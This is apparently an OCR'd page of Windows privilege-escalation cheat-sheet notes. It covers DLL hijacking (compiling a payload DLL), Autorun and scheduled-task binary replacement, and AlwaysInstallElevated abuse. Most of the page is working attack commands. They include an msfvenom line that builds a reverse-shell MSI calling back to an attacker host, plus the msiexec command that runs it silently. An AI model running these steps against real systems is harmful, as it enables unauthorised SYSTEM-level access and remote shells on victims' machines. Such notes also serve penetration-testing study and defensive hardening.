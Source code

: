 ```bash
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
```bash
x86_64-w64-mingw32-gcc file.cpp --shared -o file.dll
```


## Autorun

```powershell
#For checking, it will display some information with file-location
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

#Check the location is writable
accesschk.exe \accepteula -wvu "<path>" #returns FILE_ALL_ACCESS

#Replace the executable with the reverseshell and we need to wait till Admin logins, then we'll have shell
```

## AlwaysInstallElevated

```powershell
#For checking, it should return 1 or Ox1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

#Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> --platform windows -f msi > reverse.msi

#Execute and get shell
msiexec /quiet /qn /i reverse.msi
```

## Schedules Tasks

```bash
schtasks /query /fo LIST /v #Displays list of scheduled tasks, Pickup any interesting one
#Permission check - Writable means exploitable!
icalcs "path"
#Wait till the scheduled task in executed, then we'll get a shell
```
